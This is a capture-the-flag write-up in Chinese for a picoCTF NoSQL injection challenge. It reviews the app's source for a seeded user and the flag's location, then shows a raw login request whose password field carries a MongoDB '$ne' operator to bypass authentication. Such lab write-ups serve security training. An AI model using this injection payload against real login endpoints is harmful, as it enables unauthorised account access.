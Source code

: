 Source Code:
https://artifacts.picoctf.net/c_atlas/29/app.tar.gz

### No Sql Injection Solution
● 在app/utild/see.ts
![image](https://hackmd.io/_uploads/HkHa23CpT.png)
> 找到可登入的USER

● 在app/api/login/route.ts 找到 /admin
![image](https://hackmd.io/_uploads/ryaPjyyCT.png)

http://atlas.picoctf.net:61553/admin
![image](https://hackmd.io/_uploads/HyI8iJ1AT.png)

● 在app/models/user.ts 找到flag位置

user.ts
```python=10
const UserSchema: Schema = new Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false ,default: "{{Flag}}"},
});
const User = models.User || mongoose.model<UserInterface>("User", UserSchema);
```
> FLAG 在User 的token中

### NoSQL injection
> 參考資料:
> [PortSwigger: NoSQL injection](https://portswigger.net/web-security/nosql-injection)
> [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

#### 1. 繞過驗證
:::info
Authentication bypass
在 MongoDB 中
$ne: 代表 "not equal"，用於篩選出某個欄位的值不等於指定值的文件（或記錄）。
$gt: 代表 "greater than"，用於篩選出某個欄位的值大於指定值的文件（或記錄）。
:::
```
POST /api/login/ HTTP/1.1
Host: atlas.picoctf.net:61553
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://atlas.picoctf.net:61553
Referer: http://atlas.picoctf.net:61553/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"email":"joshiriya355@mumbama.com","password":{"$ne":  ""}}
```
使用see.ts找到的USER: joshiriya355@mumbama.com
password 不等於 ""(空白)
> 可繞過驗證，進到 /admin
> 沒有幫助

